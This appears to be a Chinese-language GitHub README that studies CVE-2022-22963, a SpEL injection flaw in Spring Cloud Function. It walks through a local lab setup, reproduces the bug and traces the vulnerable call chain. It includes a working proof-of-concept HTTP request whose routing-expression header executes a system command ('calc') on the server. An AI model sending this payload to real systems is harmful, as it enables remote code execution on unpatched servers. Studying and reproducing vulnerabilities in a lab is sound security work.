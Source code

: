 # SPeL-injection-study（CVE-2022-22963）

共分为环境搭建及漏洞复现、原理学习、POC编写三部分

一、环境搭建

IDEA新建spring initializr


![图片](https://user-images.githubusercontent.com/90664154/164910234-ed150107-3b1f-4ce8-a795-d899224629b0.png)
![图片](https://user-images.githubusercontent.com/90664154/164909361-5067e7e9-1afa-477a-a581-d8811f7b4cb6.png)
![图片](https://user-images.githubusercontent.com/90664154/164909390-ef235ebe-5f69-4004-ac6a-14c1746dd062.png)
这里生成jar包
![图片](https://user-images.githubusercontent.com/90664154/164909399-52db580e-c85e-46aa-96aa-6aa7996a9393.png)

在终端安装jdk11

java -jar jojoSPeL-0.01-SNAPSHOT.jar  部署jar包

![图片](https://user-images.githubusercontent.com/90664154/164909424-929dd7da-900d-44bb-923c-d9d5b22f5f4a.png)

访问127.0.0.1:8080验证
![图片](https://user-images.githubusercontent.com/90664154/164909431-224e18e6-e58e-4613-abd9-84087e0db1f7.png)

发送POC验证
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

jojo

![图片](https://user-images.githubusercontent.com/90664154/164909439-3dd2662e-1eb7-4231-8ec6-95a7f2a262eb.png)

二、漏洞分析

header头的spring.cloud.function.routing-expression参数调用链：
org.springframework.cloud.function.web.mvc.FunctionController中,
body-> processReques(RoutingFunction)-> FunctionInvocationWrapper.apply-> doApply-> RoutingFunction(apply)-> org.springframework.cloud.function.context.config.RoutingFunction(route)-> this.functionFromExpression()，最终执行，这其中的安全过滤函数不充分
![图片](https://user-images.githubusercontent.com/90664154/164909446-6745d62c-4204-4b51-8efe-f792e9893166.png)

三、Poc编写

见附件jojoSPeL.py

![图片](https://user-images.githubusercontent.com/90664154/164909632-7243b33f-bcb2-49b6-8237-a2f7038328b9.png)
